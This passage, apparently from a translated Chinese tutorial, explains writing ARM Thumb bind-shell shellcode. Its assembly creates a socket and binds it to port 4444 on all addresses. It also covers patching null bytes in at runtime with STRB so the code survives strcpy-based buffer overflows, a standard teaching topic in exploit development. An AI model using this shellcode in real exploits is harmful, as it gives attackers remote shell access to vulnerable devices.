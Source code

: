 ```
.THUMB
    mov     r0, #2
    mov     r1, #1
    sub     r2, r2, r2
    mov     r7, #200
    add     r7, #81                // r7 = 281 (socket syscall number) 
    svc     #1                     // r0 = host_sockid value 
    mov     r4, r0                 // save host_sockid in r4
```

### <a class="reference-link" name="4.3%20%E7%BB%91%E5%AE%9ASocket%E5%88%B0%E6%9C%AC%E5%9C%B0%E7%AB%AF%E5%8F%A3"></a>4.3 绑定Socket到本地端口

[![](https://p1.ssl.qhimg.com/t014aa554619e5b7986.png)](https://p1.ssl.qhimg.com/t014aa554619e5b7986.png)

通过第一条命令，我们将一个包含地址族、主机端口以及主机地址的结构体对象存放在文字池（literal pool）中，通过pc相对地址来引用这个对象。文字池是同一个section中的一段内存区域（因为文字池本身就是代码中的一部分），可以存放常量、字符串或者偏移量。我们无需手动计算pc相对地址，相反，我们可以使用带有便签（label）的ADR指令完成这一任务。ADR可以接受PC相对表达式，也就是带有可选偏移量的标签，其中标签的地址为与PC标签有关的相对地址。如下所示：

```
// bind(r0, &amp;sockaddr, 16)
 adr r1, struct_addr    // pointer to address, port
 [...]
struct_addr:
.ascii "x02xff"       // AF_INET 0xff will be NULLed 
.ascii "x11x5c"       // port number 4444 
.byte 1,1,1,1           // IP Address
```

接下来的5条指令为STRB（store byte）指令。STRB指令可以将寄存器中的一个字节存储到某个内存区域中。`[r1, #1]`语句的意思是将R1作为基地址，使用立即数（`#1`）作为偏移量。

在第一条指令中，我们将R1指向了存放AF_INET、本地端口以及IP地址的那个内存区域。我们可以使用静态IP地址，也可以直接使用`0.0.0.0`这个地址，这样我们的bind shell就会监听在目标主机所有的IP地址上，shellcode也更加灵活。但这样代码中会包含许多null字节。

我们需要处理掉所有的null字节，以便让我们的shellcode能够适配许多漏洞利用场景，因为某些漏洞利用技术针对的是内存损坏漏洞，而这种漏洞可能对null字节比较敏感。如果开发者没有正确使用诸如`strcpy`之类的函数，那么就会造成缓冲区溢出。`strcpy`的任务是拷贝数据，遇到null字节时才停止工作。我们利用缓冲区溢出来接管程序的执行流程，如果`strcpy`碰到null字节，那么它会停止复制我们的shellcode，因此我们的漏洞利用过程就无法顺利完成。使用STRB指令后，我们可以从寄存器中取出null字节，在执行过程中修改我们的代码。这样一来，虽然实际上我们的shellcode中没有包含null字节，但可以通过动态方式将null值添加到合适的位置中。为了实现这个功能，我们需要可写的代码段，只需在程序链接过程中使用`-N`标志即可。

这样处理后，我们的代码中已经不包含null字节，需要的时候再将null字节动态存放到合适的位置。如下图所示，我们最开始使用的是`1.1.1.1`这个IP地址，在执行过程中，这个地址会被替换为`0.0.0.0`。

[![](https://p3.ssl.qhimg.com/t012ffe38e91bc6345f.png)](https://p3.ssl.qhimg.com/t012ffe38e91bc6345f.png)

第一条STRB指令会将`x02xff`中`xff`这个占位符替换为`x00`，以便将AF_INET设置为`x02x00`。那么我们怎么知道我们使用的是一个null字节呢？原因是r2寄存器存放的恰恰就是0。还记得前面我们用过的`sub r2, r2, r2`指令吗？这条指令会将r2寄存器清零。接下来的4条指令会将`1.1.1.1`替换为`0.0.0.0`。如果你不想在`strb r2, [r1, #1]`指令后面使用4条strb指令，那么你可以使用1条`str r2, [r1, #4]`指令，也会起到同样效果。

`mov`指令会将`sockaddr_in`结构的长度值（16个字节，其中AF_INET占了2字节，PORT占了2字节，IP地址占了4字节，还有8字节的填充数据）存放到r2中。接下来，我们将r7的值加1，变成282，因为上一条系统调用后r7的值为281。

```
// bind(r0, &amp;sockaddr, 16)
    adr  r1, struct_addr   // pointer to address, port
    strb r2, [r1, #1]     // write 0 for AF_INET
    strb r2, [r1, #4]     // replace 1 with 0 in x.1.1.1
    strb r2, [r1, #5]     // replace 1 with 0 in 0.x.1.1
    strb r2, [r1, #6]     // replace 1 with 0 in 0.0.x.1
    strb r2, [r1, #7]     // replace 1 with 0 in 0.0.0.x
    mov r2, #16
    add r7, #1            // r7 = 281+1 = 282 (bind syscall number) 
    svc #1
    nop
```
